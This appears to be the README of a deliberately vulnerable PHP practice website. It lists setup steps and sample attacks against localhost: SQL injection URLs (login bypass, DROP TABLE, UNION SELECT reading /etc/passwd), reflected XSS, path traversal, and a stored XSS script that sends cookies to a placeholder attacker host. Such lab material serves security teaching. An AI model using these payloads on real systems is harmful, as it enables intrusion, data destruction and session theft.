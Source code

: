 This code has been developed in such a way that it is vulnerable to the most basic and common website security exploits. It's meant to contain all the bad practices.

SQL Injection / XSS / Session Hijacking are all available through this codebase.

Note: Some of these might not work if your database user doesn't have sufficient privileges.

Steps:
------

1. Load the db.sql file to your database.
2. Change the consts.php file to contain the username and password of database user.
3. Load your site.

Examples:
---------

SQL Injection:
--------------
http://localhost/?username=jared'%20or%20'1'='1
http://localhost/?username=jared'%20or%20''='
http://localhost/index.php?id=1%20or%201=1
http://localhost/?id=1;drop%20table%20invoices -- doesn't work because mysql_query stacked query support -- but will work with other dbs
http://localhost/index.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('/etc/passwd'),'1
http://localhost/index.php?username='%20UNION%20SELECT%201,2,3,4,5,'hello%20world


Bypass Login:

Password: foo' or '1'='1

XSS:
----
http://localhost/index.php?username=jared%3Cscript%3Ealert('Hi%20there!')%3C/script%3E
http://localhost/template?load=php://filter/convert.base64-encode/resource=loadme

Use XSS to hijack a users session:
----------------------------------
On the 'Send message' page:

Hey just wanted to say that you guys rock!
<script>
new Image().src="http://somereallybadsite.tld/?c="+encodeURI(document.cookie);
</script>

XSS to read files on disk:
--------------------------
http://localhost/template.php?load=../../../../etc/passwd%00

